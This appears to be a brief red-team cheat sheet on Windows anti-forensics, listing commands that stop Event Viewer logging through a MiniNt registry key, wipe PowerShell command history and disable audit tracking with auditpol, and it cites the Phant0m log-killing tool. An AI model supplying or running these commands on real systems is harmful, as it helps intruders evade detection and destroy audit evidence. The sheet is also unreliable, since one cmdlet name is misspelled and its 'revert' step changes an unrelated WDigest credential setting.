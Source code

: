 # Disable Logs

- **Suspend Event Viewer from generating logs**

`C:\> reg add "hklm\system\currentcontrolset\control\MiniNt"`

`C:\> reg add "hkey_local_machine\system\currentcontrolset\control\MiniNt"`

`PS C:\> $CleanTracks = (Get-PSRealineOption).HistorySavePath; echo "null" > $CleanTracks`

`C:\> auditpol /get /category:"Detailed Tracking"`

`C:\> auditpol /set /category:"Detailed Tracking" /success:disable /failure:disable`

`C:\> auditpol /set /category:"Detailed Tracking" /success:enable /failure:enable`

- Revert Back the settings

`C:\Windows\system32> reg add "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential /t REG_DWORD /d 0 /f`

---
## References

- [Phant0m](https://github.com/hlldz/Phant0m)
